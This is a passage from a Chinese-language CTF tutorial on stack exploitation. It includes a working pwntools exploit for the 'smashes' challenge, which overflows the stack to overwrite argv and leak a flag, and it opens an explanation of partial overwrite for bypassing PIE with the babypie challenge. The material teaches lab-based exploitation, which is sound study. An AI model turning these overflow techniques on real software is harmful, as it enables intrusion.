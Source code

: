 可以看出rsp的值为0x7fffffffda40，那么相对偏移为

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我们构造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
sh.sendline('bb')
data = sh.recv()
sh.interactive()
```

这里我们直接就得到了 flag，没有出现网上说的得不到 flag 的情况。

### 题目
- 2018 网鼎杯 - guess

## 栈上的 partial overwrite
partial overwrite 这种技巧在很多地方都适用, 这里先以栈上的 partial overwrite 为例来介绍这种思想。

我们知道, 在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

### 2018-安恒杯-babypie
以安恒杯 2018 年 7 月月赛的 babypie 为例分析这一种利用技巧, 题目的 binary 放在了 [ctf-challenge](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/partial_overwrite) 中
#### 确定保护
```bash
babypie: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=77a11dbd367716f44ca03a81e8253e14b6758ac3, stripped
[*] '/home/m4x/pwn_repo/LinkCTF_2018.7_babypie/babypie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
64 位动态链接的文件, 开启了 PIE 保护和栈溢出保护
#### 分析程序
IDA 中看一下, 很容易就能发现漏洞点, 两处输入都有很明显的栈溢出漏洞, 需要注意的是在输入之前, 程序对栈空间进行了清零, 这样我们就无法通过打印栈上信息来 leak binary 或者 libc 的基址了
```C
```